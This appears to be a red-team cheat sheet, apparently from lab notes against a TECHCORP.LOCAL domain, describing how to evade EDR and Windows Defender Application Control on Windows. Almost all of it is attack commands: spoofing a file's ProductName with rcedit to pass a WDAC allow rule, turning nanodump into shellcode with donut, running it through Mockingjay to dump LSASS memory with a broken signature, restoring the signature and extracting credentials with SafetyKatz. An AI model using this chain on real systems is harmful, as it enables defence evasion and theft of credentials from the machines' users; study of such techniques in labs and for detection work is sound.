

# Evading EDR

There are multiple ways to evade EDR or EDR-like protections.


## Check DeviceGuard (WDAC)

First, check whether DeviceGuard is enabled:

```powershell
> Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

Then, retrieve the DeviceGuard policy:

```powershell
> copy \\us-jumpX.US.TECHCORP.LOCAL\c$\Windows\System32\CodeIntegrity\DG.bin.p7 C:\AD\Tools
> . C:\AD\Tools\CIPolicyParser.ps1
> ConvertTo-CIPolicy -BinaryFilePath C:\AD\Tools\DG.bin.p7 -XmlFilePath C:\AD\Tools\DG.bin.xml
```

We find in the XML file an allowed rule:

<figure><figcaption></figcaption></figure>

This means that all files that have their attribute `ProductName` to `Vmware Workstation` will not be blocked.

## Update attributes of a file

Use `rcedit` to update attributes of files:

```powershell
> rcedit.exe <path_to_file> --set-version-string "ProductName" "Vmware Workstation"
```

## Convert executable to shellcode

Use `donut`. Example to create a shellcode of `nanodump` with arguments `-sc -f --write nano.dmp`:

```powershell
> donut.exe -f 1 -p " -sc -f --write nano.dmp" -i nanodump.exe -o nanodump.bin
```

## Check detection status of file

Use `DefenderCheck`:

```powershell
> DefenderCheck.exe <executable.exe>
```

## Bypass EDR with mockingjay

`Mockingjay` is a tool that runs shellcode and bypasses EDR detection. It depends on some DLLs:

* msvcp140.dll
* vcruntime140.dll
* vcruntime140\_1.dll
* mscorlib.ni.dll

Update attributes of all files to match WDAC rules and package it in a zip. Run it with:

```powershell
> mockingjay.exe nanodump.bin
```

A dump of the memory of LSASS is created but with a wrong signature to prevent EDR detection. First restore the correct signature before exploiting the dump:

```powershell
> restore_signature.exe nano.dmp
```

Lastly, extract secrets from `nano.dmp` with `SafetyKatz`:

```powershell
> SafetyKatz.exe "sekurlsa::minidump <path_to_nano.dmp>" "sekurlsa::evasive-keys" "exit"
```
